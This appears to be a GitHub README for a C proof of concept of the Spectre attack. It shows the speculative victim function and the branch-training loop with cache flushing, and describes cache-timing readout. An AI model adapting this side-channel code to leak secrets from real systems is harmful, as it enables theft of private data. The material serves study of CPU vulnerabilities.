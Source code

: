 # Spectre Attack
Implementation of the [spectre attack](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)) using C

# Solution
The solution uses conditional branch misprediction to read secret information stored in the program’s address space.

Attack function:
```c
void f(size_t i) {
    uint8_t someValue = 0;
    if (i < indexArraySize) {
        someValue &= attackArray[indexArray[i] * CACHE_LINE];
    }
}
```

The process of attacks:
1. First we teach the branch predictor with a valid index (it does not go beyond the boundaries of the indexArray array)
2. Then we try to get data from `needAddress` (after clearing the cache)
```c
int x = 0;
size_t validIndex = try % indexArraySize;
for (volatile int j = 0; j < NUMBER_ATTACKS; j++) {
  makeDelay();

  x += j;
  x = x * x;
  x <<= 2;

  size_t index = ((j % ATTACKS_INTERVAL) - 1) & ~0xFFFF;
  index = validIndex ^ ((index | (index >> 16)) & (needAddress ^ validIndex));

  _mm_clflush(&indexArraySize);
  f(index);
}
```

After the attacks, we start searching in the cache for the element we need. Using the `__rdtscp` function, we count the time. If the time is less than `CACHE_HIT`, we count the hit of the symbol in the cache.

